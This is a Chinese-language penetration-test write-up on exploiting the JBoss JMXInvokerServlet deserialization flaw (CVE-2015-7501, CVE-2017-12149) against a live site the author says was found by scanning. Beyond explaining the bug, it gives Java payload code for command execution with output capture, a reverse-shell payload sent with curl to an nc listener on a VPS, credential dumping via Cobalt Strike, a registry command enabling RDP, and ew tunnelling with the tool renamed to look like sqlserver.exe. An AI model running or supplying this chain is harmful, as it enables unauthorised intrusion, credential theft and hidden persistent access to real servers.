记一次渗透测试之JMXInvokerServlet反序列化漏洞
0x00 前言
今天扫到了一个jboss的站十分奇怪，存在jmx-console和JMXInvokerServlet漏洞
但是通过war远程部署的方法访问jsp小马的时候页面报错500，推测应该是禁止了web流量的原因，那么只能通过JMXInvokerServlet拿他的shell了
0x01 Jboss反序列化的原理
JMXInvokerServlet 反序列化漏洞和Jboss 的 HttpInvoker 组件中的ReadOnlyAccessFilter 过滤器的漏洞可以是同一个操作思路就能进行“一打二”
Jboss反序列化的漏洞编号为：CVE-2015-7501和CVE-2017-12149
CVE-2015-7501漏洞：JBoss在 /invoker/JMXInvokerServlet 请求中读取了用户传入的对象，然后我们可以利用 Apache Commons Collections 中的 Gadget 执行任意代码。
CVE-2017-12149漏洞：该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。
不过我也不是专门走java路线的，所以java栈也不在我的技术范围之内，这里只好搜集各种资料试图对两个漏洞的原理进行了解。
这里先说两个概念：
Java序列化就是指把Java对象转换为字节序列的过程，在传递和保存对象时.保证对象的完整性和可传递性。对象转换为有序字节流,以便在网络上传输或者保存在本地文件中。
Java反序列化就是指把字节序列恢复为Java对象的过程，根据字节流中保存的对象状态及描述信息，通过反序列化重建对象。
用代码看就是：
序列化：
FileOutputStream fos = new FileOutputStream(file);ObjectOutputStream oos = new ObjectOutputStream(fos);oos.writeObject(st);
反序列化:
FileInputStream fis = new FileInputStream(file);ObjectInputStream ois = new ObjectInputStream(fis);Student st1 = (Student) ois.readObject();
CVE-2015-7501，这是经典的JBoss反序列化漏洞，漏洞产生的原因是JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象
而CVE-2017-12149的漏洞出现在HttpInvoker组件中的ReadOnlyAccessFilter过滤器中，源码在jboss\server\all\deploy\httpha-invoker.sar\invoker.war\WEB-INF\classes\org\jboss\invocation\http\servlet目录下的ReadOnlyAccessFilter.class文件中,其中doFilter函数代码如下:

可以看出它从http中获取数据，通过调用readobject()方法对数据流进行反序列操作，但是没有进行检查或者过滤
这就造成了JBoss中invoker/JMXInvokerServlet路径对外开放，而且JBoss的jmx组件支持Java反序列化
0x02 漏洞利用
注意EXP只能利用服务器本机的资源，不能加载远程类
通过对漏洞成因分析可以得知，我们只能通过链式调用来执行java语句。换句话说，我们所想执行的语句必须可以写到一行里面，而且还不能带分号：
( 其实这里很好突破，我们只要把我们想要执行的任意代码（无论有多长）在本地编译成class，然后把class字节码上传到服务器就可以了。然后问题又来了，怎么上传呢，上传到什么路径下面呢？上传可以通过FileOutputStream这个类来实现，上传路径就更简单了，直接给FileOutputStream传个“.”过去，上传到程序运行的当前目录下面,一句话代码：
new FileOutputStream(“./payload.class”).write(new byte[]{0xXX,0xXX……})上传的问题解决了，下面执行也就好办了，一句代码：
java.net.URLClassLoader. getConstructor(java.net.URL[].class). newInstance(new java.net.URL[] {new java.net.URL("file:./")}). loadClass(“payload”). newInstance(“cmd.exe /c whoami”)这样就可以只利用服务器本机资源，不需要联网，可以上传任意文件至任意目录。
获取命令回显内容：
通过对JBOSS中invoker/JMXInvokerServlet的返回结果进行分析，得知返回的是一个 MarshalledValue对象，该对象封装了invoker/JMXInvokerServlet的返回值，如果执行过程中有异常抛出，一个InvocationException对象就会封装在MarshalledValue对象里面。
到这里思路就很明确了，java 的异常有个构造函数是可以传String参数的，我们可以把第一步那个class文件中命令执行的结果作为参数构造一个Exception，然后在payload.class最后throw这个Exception，这样这个带有回显内容的Exception就会封装在MarshalledValue对象里面通过http协议返回，我们只要把返回的MarshalledValue对象解包，就可以获取回显的内容了。
payload.java的源代码如下:
import java.io.BufferedReader;import java.io.InputStreamReader;public class RunCheckConfig {public RunCheckConfig(String args) throws Exception{Process proc = Runtime.getRuntime().exec(args);BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));StringBuffer sb = new StringBuffer();String line;while ((line = br.readLine()) != null){sb.append(line).append("\n");}String result = sb.toString();Exception e=new Exception(result);throw e;}}
解包程序的源代码:
public static void main(String args[]) throws Exception{FileInputStream fis = new FileInputStream("d:/response.bin");byte TempByte[]=new byte[5000*1000];int length=fis.read(TempByte);int ClassStart=0;for (int i=0;i<length;i++){if (TempByte[i]==0x0d&&TempByte[i+1]==0x0a&&TempByte[i+2]==0x0d&&TempByte[i+3]==0x0a){System.out.println(i);ClassStart=i;break;}}byte ClassByte[]=new byte[length-ClassStart-4];for (int i=0;i<ClassByte.length;i++){ClassByte[i]=TempByte[i+ClassStart+4];}fis.close();TempByte=null;ByteArrayInputStream ai=new ByteArrayInputStream(ClassByte);ObjectInputStream ois = new ObjectInputStream(ai);MarshalledValue st1 = (MarshalledValue) ois.readObject();InvocationException o=(InvocationException) st1.get();System.out.println(o.getTargetException().getCause().getCause().getCause().getMessage());}
下面是解包后的截图：

0x03 漏洞实战
前文提到，可以用exp执行命令回显，师傅已经帮我们铺好了道路，写好了脚本去检测是否有这个漏洞存在
这里先用脚本扫描出存在JMXInvokerServlet反序列化，这里其实可以用工具直接拿shell上线，但是这个shell是一个交互式shell并不稳定，随时有掉线的可能，所以我这里选择手动利用

这里需要利用反弹流量，所以需要准备一台有公网ip的vps
利用jboss反序列化工具：https://github.com/ianxtianxt/CVE-2015-7501/
把反序列化工具解压到vps，执行如下命令
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.javajava -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap ip:4444（IP是攻击机ip,即公网ip,4444是要监听的端口)
这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件

这时候我们在本地用nc监听一个端口接受反弹shell
nc -lvnp 4444
然后我们再使用一个curl去请求反弹建立连接
curl http://被攻击机ip:端口/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
这里再切回nc界面发现shell已经反弹了过来

然后cs上线抓密码

开3389
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
vps上传ew作反向代理，使目标机能够访问我的vps，但是我访问不到他
chmod 777 ew_for_linux //赋予ew读写权限./ew_for_linux64 -s lcx_listen -l 1111 -e 1234 //将1111接收到的流量转发到1234端口

把ew_for_windows上传到目标机上，这里我为了隐蔽改了一个名字叫sqlserver.exe
shell ew_for_windows.exe -s lcx_slave -d vps-ip -e 1234 -f 目标机内网ip -g 3389
再回到我们的vps发现已经接受到了流量

直接本地连接vps的1111端口

登录成功

0x04 后记
jboss的总体漏洞相比weblogic来说是比较少的，但是在jmx反序列化这一块确实重灾区，虽然脚本能够帮我们直接拿下一个shell，但是因为是交互性的shell，随时都有可能掉线，所以这时候就需要我们用vps手动去利用这个jmx反序列化的漏洞。

推荐阅读：
本月报名可以参加抽奖送暗夜精灵6Pro笔记本电脑的优惠活动

点赞，转发，在看
原创投稿作者：HopeVenus